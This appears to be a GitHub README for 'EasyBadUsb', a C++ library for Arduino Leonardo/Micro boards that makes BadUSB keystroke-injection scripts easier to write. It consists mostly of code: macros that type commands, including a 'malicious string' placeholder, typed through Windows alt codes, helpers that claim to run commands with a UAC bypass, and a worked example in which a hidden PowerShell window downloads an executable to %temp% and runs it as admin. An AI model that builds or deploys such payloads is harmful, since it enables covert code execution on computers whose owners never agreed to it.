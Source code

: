 # EasyBadUsb
simple header only lib written in C++ to make BadUsb scripting easier (Arduino IDE)

### tested only on ATmega32u4 (HW-374) Arduino Leonardo or Micro
![screen](images/dis.jpg)
[image from github.com/ElijahCuff/HW-374](https://github.com/ElijahCuff/HW-374)

# v2 with alt codes (only for Windows)
## To use functions with ALT codes, Num Lock should be turned on!!!

### first, include alt.hpp in your sketch file
```cpp
#include "alt.hpp"
```

### then between BEGIN() ... END() we write our commands
```cpp
/*
    When you connect the device for the first time, it takes time for the system to detect it
    in brackets we write the delay time from connecting the device to the start of its operation
*/
BEGIN(10000)

//
// commands
//

END()
```

### lowercase input on any keyboard layout expense of alt codes (only works on Windows)

#### supported characters (eng letters, numbers and basic special characters)

```cpp
static const alt_code alt_codes_array[] = {
    {' ', 32},  {'B', 66},  {'C', 67},  {'D', 68},  {'E', 69},  {'F', 70},
    {'G', 71},  {'H', 72},  {'I', 73},  {'J', 74},  {'K', 75},  {'L', 76},
    {'M', 77},  {'N', 78},  {'O', 79},  {'P', 80},  {'Q', 81},  {'R', 82},
    {'S', 83},  {'T', 84},  {'U', 85},  {'V', 86},  {'W', 87},  {'X', 88},
    {'Y', 89},  {'Z', 90},  {'a', 97},  {'b', 98},  {'c', 99},  {'d', 100},
    {'e', 101}, {'f', 102}, {'g', 103}, {'h', 104}, {'i', 105}, {'j', 106},
    {'k', 107}, {'l', 108}, {'m', 109}, {'n', 110}, {'o', 111}, {'p', 112},
    {'q', 113}, {'r', 114}, {'s', 115}, {'t', 116}, {'u', 117}, {'v', 118},
    {'w', 119}, {'x', 120}, {'y', 121}, {'z', 122}, {'0', 48},  {'1', 49},
    {'2', 50},  {'3', 51},  {'4', 52},  {'5', 53},  {'6', 54},  {'7', 55},
    {'8', 56},  {'9', 57},  {'!', 33},  {'"', 34},  {'#', 35},  {'$', 36},
    {'%', 37},  {'&', 38},  {'\'', 39}, {'(', 40},  {')', 41},  {'*', 42},
    {'+', 43},  {',', 44},  {'-', 45},  {'.', 46},  {'/', 47},  {':', 58},
    {';', 59},  {'<', 60},  {'=', 61},  {'>', 62},  {'?', 63},  {'@', 64},
    {'[', 91},  {'\\', 92}, {']', 93},  {'^', 94},  {'_', 95},  {'`', 96},
    {'{', 123}, {'|', 124}, {'}', 125}, {'~', 126}, {'A', 65}};
```

#### alt codes lib functional

```cpp
    const char *payload_str = "powershell -windowstyle hidden..."; // malicious string

    // void alt_print(const char *str, size_t t_sleep)
    alt_print(payload_str, 0); // (malicious_string, sleep time for enter next char)
    /* sleep time for enter next char.. because i had problems on Windows 7
    that the system was unable to process alt codes, on Win 10/11 work well */
```





#### buttons definitions
```cpp
#define MKEY_LEFT_CTRL      (0x0001 << 0x00)
#define MKEY_LEFT_WIN       (0x0001 << 0x01)
#define MKEY_LEFT_SHIFT     (0x0001 << 0x02)
#define MKEY_LEFT_ALT       (0x0001 << 0x03)
#define MKEY_ENTER          (0x0001 << 0x04)

#define MKEY_LEFT_ARROW     (0x0001 << 0x05)
#define MKEY_RIGHT_ARROW    (0x0001 << 0x06)

#define MKEY_CH_R           (0x0001 << 0x07)
#define MKEY_CH_A           (0x0001 << 0x08)
#define MKEY_CH_C           (0x0001 << 0x09)

#define MKEY_FN_4           (0x0001 << 0x0A)

#define MKEY_CH_Y           (0x0001 << 0x0B)
```

### The PRESS functions is used to press special keys and simultaneously press several keys on the keyboard
```cpp
// #define PRESS(BTNS, t_sleep)
PRESS(MKEY_LEFT_CTRL | MKEY_LEFT_SHIFT | MKEY_ENTER, 200) // (buttons to be pressed, sleep time for press next button)

// #define PRESS_KRELALL(BTNS, t_sleep, t_wait)
PRESS_KRELALL(MKEY_LEFT_WIN | MKEY_CH_R, 200, 500) // (buttons to be pressed, sleep time for press next button, sleep time to release the buttons)

// bool release_btn(const uint8_t button)
release_btn(MKEY_ENTER) // (buttons to be released)

// void tprint(const char *str, size_t t_sleep)
tprint("echo Hello World!", 30) // (string, sleep time for enter next char), default print (NOT ALT)

// #define WAIT(ms)
WAIT(500) // delay 500 ms
```


### convenient definitions
```cpp
// #define RUN_ENTER(command, t_sleep_print)
    RUN_ENTER("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))

// #define RUN_ENTER_AS_ADMIN(command, t_sleep_print)
    RUN_ENTER_AS_ADMIN("msiexec /i https://www.python.org/ftp/python/2.7.18/python-2.7.18.amd64.msi", 0) // (command for win + r (run), sleep time to release the buttons(alt codes))
    // will be run as administrator (UAC bypass if user admin on system)
```


### example
```cpp
#include "alt.hpp"

// When you connect the device for the first time, it takes time for the system to detect it
BEGIN(10000)
    const char *str = "powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('"
    "https://www.python.org/ftp/python/3.11.7/python-3.11.7-amd64.exe', '%temp%/py_install.exe'); %temp%/py_install.exe";
    RUN_ENTER_AS_ADMIN(str, 0)
END()
```

### demo
[![demo](https://img.youtube.com/vi/Osa8dZCe86s/0.jpg)](https://www.youtube.com/watch?v=Osa8dZCe86s)

